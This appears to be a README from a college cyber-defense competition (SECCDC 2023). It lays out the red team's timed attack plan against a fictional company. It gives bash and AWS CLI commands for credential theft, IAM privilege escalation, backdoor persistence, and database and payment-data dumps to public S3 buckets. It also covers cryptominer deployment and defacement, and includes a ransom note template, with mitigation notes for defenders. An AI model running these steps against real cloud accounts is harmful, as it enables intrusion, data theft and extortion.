


# seccdc2023-Fooli-Attack

This repo documents the attack plan as (planned) executed against Fooli during the SECCDC Regional Competition.

As a refresher, I was framed, arrested, and escaped custody during the competition welcome ceremonies.
At that point, I went from the CTO of Fooli, to an ex-insider threat. As the primary architect of the meme-factory, I knew all of the technical debt, vulnerabilities, back-doors and misconfigurations.


Through out the competition, all IAM activity should have come from XXX IP address in Brazil. This was a Tailscale node I egress all my attacker traffic from.

# Wednesday

Wednesday began with the shocking revelation that Farris (the CTO) was arrested for possession of Classified Memes. Farris escaped, fled to Paraguay, and proclaimed his innocence and accused Dr. Green of framing him.

To support his CTO lifestyle, Farris began to conduct operations against Fooli.

## Pre-show work

In the Red Team account, create the needed buckets:
```bash
./scripts/mk_team_ransom_buckets.sh payments-exfiltration
./scripts/mk_team_ransom_buckets.sh recon
./scripts/mk_team_ransom_buckets.sh customer-dumps
```

## 10:00 Wednesday

### Initial Access - Exfiltrate Credentials using my credentials.

```bash
for city in `cat cities.txt` ; do
	./scripts/leverage_creds_api.py --url fooli-api.$city.fooli.wtf --username chris --password dexxa > $city-container-creds.env
done
```

**Mitigation:** If you had removed my access I wouldn't have been able to use the _application_ credentials to conduct this attack.

### Conduct Recon

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/wed-recon.sh $city
	aws s3 sync data/$city s3://$city.fooli.wtf-recon
done
```
Data is copied to S3 for sharing with the RedTeam

## 10:30 Wednesday

### Privilege Escalation
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/containerRole-PrivEsc.sh data/$city
done
```
The AdministratorAccess is attached to the ContainerRole. ContainerRole had the `"iam:Attach*"` permissions.

### Persistence - Add IAM User
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/wed-iam-persistence.sh $city
done
```
This script created a user called `security-audit` in every account, the access key was downloaded by Chris.

**Mitigation:** detection and disabling the Access Key was the proper response here.


### Persistence - Add Lambda URL Cred Dumper

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	aws cloudformation create-stack --stack-name meme-audit --template-body file://cloudformation/lambda-backdoor-Template.yaml --capabilities CAPABILITY_NAMED_IAM CAPABILITY_AUTO_EXPAND
done
```

Wait 2 minutes and go back and get the URLs:

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	echo -n "$city - "
	aws cloudformation describe-stacks --stack-name meme-audit --query 'Stacks[0].Outputs[?OutputKey==`VendingURL`].OutputValue' --output text
	echo GreenIsD3@dm3@t
done >> LambdaURLs.txt
```

Password to get the creds is `GreenIsD3@dm3@t`

CURL command should look like:
`curl https://BIGLONGRANDOMCRAP.lambda-url.us-east-1.on.aws/GreenIsD3@dm3@t | jq .`

**Mitigation:** detection and removal of the CF Stack was the proper response here.

## 11:00 Wednesday
*Quiet Time*

*11:30 Lunch*

## noon - 14:00 Wednesday

### Exfiltration - Capture the customer database

```bash
for city in `cat cities.txt` ; do
	mysqldump -f -u nuculus --password=SonofAnton --host=meme-db.$city.fooli.wtf --set-gtid-purged=OFF --skip-lock-tables --column-statistics=0 memedb > data/$city/customerdb.sql
	aws s3 cp data/$city/customerdb.sql s3://$city.fooli.wtf-customer-dumps --acl public-read
done
```

URL for later blackmail is: \
https://s3.console.aws.amazon.com/s3/buckets/lisbon.fooli.wtf-customer-dumps?region=us-east-1&tab=objects


### Conduct Ransom Demands against each team.

Script:

	Greetings,

	We are an APT group that has gained access to your confidential data. We have infiltrated your network and have been monitoring your activities for some time now. We have discovered a treasure trove of highly sensitive material, including classified memes, trade secrets, and intellectual property.

	We are not interested in using this information for personal gain. Instead, we seek to offer you a chance to reclaim your data. In order to do so, we require a ransom payment of $1,000,000 in FooliCoin.

	Failure to pay the ransom will result in the release of all sensitive information to the public. We will also destroy all of the data on your systems and corrupt all backups, rendering them useless.

	To pay the ransom, you must transfer the FooliCoin to the following address: bc1qq8gwlmj4x9nr4crwtd6j56wf96krsw9z4t3nux

	Once the payment has been made, please reply in this discord with the transaction ID, and we will provide you with the decryption key to unlock your data.

	Do not attempt to contact the authorities or seek out any other assistance. Our technology and expertise far exceed any countermeasures you may attempt to deploy.

	We look forward to doing business with you.

	As proof we have your data, you can see it here:
	https://s3.console.aws.amazon.com/s3/buckets/CITY.fooli.wtf-recon?region=us-east-1&tab=objects
	https://s3.console.aws.amazon.com/s3/buckets/CITY.fooli.wtf-customer-dumps?region=us-east-1&tab=objects


### Impact - Deploy CryptoMiners
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/deploy-cryptominer.sh
```
GuardDuty should notify this is running.


## 14:00 Wednesday

*Quiet time*

## 16:00 Wednesday

### Lateral Movement - Pivot from API Keys, to Console, to SSM on Payments server

With exfiltrated credentials in the environment, execute [get_login_url.py](scripts/get_login_url.py)
```bash
./scripts/get_login_url.py
```
Open that URL in Incognito

### Exfiltration - Start dumping the Credit Card Data into S3.

2. Via SSM export the data from payments server
```bash
sudo -s
aws s3 sync /var/log/unit/ s3://CITY.fooli.wtf-payments-exfiltration --acl public-read
```

3. Panic the students
Get Nick or Green to drop into team channels the URLs with the payment data

Script:

	What the hell is going on? I just got a call from Sean Lyngrass at CNN - https://twitter.com/snlyngaas -
	He's reporting that our payment information is on the darkweb! How did _you_ let this happen?
	https://s3.console.aws.amazon.com/s3/object/CITY.fooli.wtf-payments-exfiltration?region=us-east-1&prefix=unit.log


**Mitigation:** Once I had the credentials, there was little you could do to stop this attack. If you were aware I had stolen role credentials you could have invalidated my credentials.

## 18:00 Wednesday

*Quiet Time - Dinner*

## 19:30 Wednesday

### Conduct Ransom Operation

TODO


## 20:00 Wednesday
**Competition ends for the day**

20:50 - Teams are informed of the Ransom Action against all of Fooli.


# Thursday

## 1000 Thursday

### Inject 66

\
*details under embargo*

## 11:30 Thursday
*Quiet Time - Lunch*


## 12:30 Thursday

### Impact - start replacing all memes with MoneyHeist Mask.

URL: https://fooli-evil-images.s3.amazonaws.com/dali.png



```bash
for city in `cat cities.txt` ; do
	for key in `aws s3api list-objects-v2 --bucket $city-moscow-0 --query Contents[].[Key] --output text | grep -v images.html` ; do
		aws s3 cp s3://fooli-evil-images/dali.png s3://$city-moscow-0/$key --acl public-read
	done
done
```

**Mitigation:** If you had stopped the buckets from being public read/write this attack would have been stopped.


## 1400 Thursday
Competition Ends